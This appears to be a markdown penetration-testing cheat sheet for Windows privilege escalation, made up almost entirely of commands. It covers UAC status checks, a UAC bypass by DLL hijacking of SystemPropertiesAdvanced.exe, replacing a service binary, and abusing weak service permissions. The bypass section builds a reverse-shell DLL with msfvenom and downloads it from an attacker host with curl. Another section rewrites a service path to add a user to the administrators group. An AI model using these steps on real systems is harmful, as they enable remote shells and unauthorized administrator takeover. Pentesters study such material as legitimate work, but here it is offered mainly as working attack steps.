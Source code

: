 #### UAC Status Check
```cmd
# Check if UAC is enabled
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA

# Check UAC level
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin

# Check Windows version
[environment]::OSVersion.Version
```

#### UAC Bypass (SystemPropertiesAdvanced.exe)
```cmd
# Step 1: Check PATH variable
cmd /c echo %PATH%

# Step 2: Generate malicious DLL
msfvenom -p windows/shell_reverse_tcp LHOST=<Attacker_IP> LPORT=<Port> -f dll > srrstr.dll

# Step 3: Download to WindowsApps folder
curl http://<Attacker_IP>/srrstr.dll -O "C:\Users\<user>\AppData\Local\Microsoft\WindowsApps\srrstr.dll"

# Step 4: Start listener and execute
nc -lnvp <Port>
C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```

### Weak Permissions

#### Service Binary Hijacking
```cmd
# Step 1: Find modifiable service binaries
.\SharpUp.exe audit

# Step 2: Check permissions
icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"

# Step 3: Replace binary with malicious one
cmd /c copy /Y malicious.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"

# Step 4: Start service
sc start SecurityService
```

#### Weak Service Permissions
```cmd
# Step 1: Check service permissions
accesschk.exe /accepteula -quvcw <ServiceName>

# Step 2: Modify service binary path
sc config <ServiceName> binpath="cmd /c net localgroup administrators <user> /add"

# Step 3: Restart service
sc stop <ServiceName>
sc start <ServiceName>
```
